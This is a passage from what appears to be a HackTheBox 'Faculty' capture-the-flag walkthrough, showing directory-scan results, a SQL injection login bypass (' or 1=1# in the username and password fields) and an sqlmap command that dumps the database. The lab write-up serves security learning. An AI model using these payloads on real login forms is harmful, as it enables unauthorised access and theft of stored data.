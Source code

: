 ```bash
/subjects.php         (Status: 200) [Size: 12162]                                       
/topbar.php           (Status: 200) [Size: 1201]                                        
/site_settings.php    (Status: 200) [Size: 2275]
```

I usually run SQLMap on the login websites when checking for other stuff manually. On the login we have a straight forward SQLi:

```sql
'
username field: ' or 1=1#
'
password field: ' or 1=1#
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/faculty/4_0_admin.png" width="90%"/>
</p>


On the meantime, the SQLMap tool found a SQL time based:


```bash
sqlmap -r login --dbms=mysql --dump
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/faculty/2_0_sqli.png" width="70%"/>
</p>
